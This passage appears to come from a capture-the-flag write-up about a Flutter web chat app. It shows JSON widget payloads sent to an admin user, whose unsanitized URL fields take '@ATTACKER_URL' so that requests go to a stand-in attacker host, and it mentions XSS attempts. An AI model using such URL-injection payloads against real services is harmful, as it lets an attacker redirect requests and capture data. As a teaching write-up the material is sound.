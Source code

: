 ```json
{
    "type":"widget",
    "widget":"/widget/poll",
    "author":{
        "user":"test#9b808596",
        "platform":"web"
    },
    "recipients":["admin#13371337"],
    "data":{
        "title":"test",
        "apiGet":"@ATTACKER_URL",
        "apiVote":"@ATTACKER_URL"
    }
}
```

The `widget`, `apiGet`, and `apiVote` paths are appended to the base URL without sanitization - so using `@ATTACKER_URL` causes the following URL to be constructed:

`http://BASE_URL@ATTACKER_URL`

I tried some XSS payloads, hoping that the poll wasn't sanitized. Alas, a Flutter web app is entirely rendered on a `<canvas>`, so rendering unescaped HTML was hopeless.

I then tried to manipulate the `widget` parameter instead.

```json
{
    "type":"widget",
    "widget":"@ATTACKER_URL/test",
    "author":{
        "user":"abcd#c7e80dd5",
        "platform":"web"
    },
    "recipients":["admin#13371337"],
    "data":{
        "message":"test"
    }
}
```

Aha! This causes a traceback!
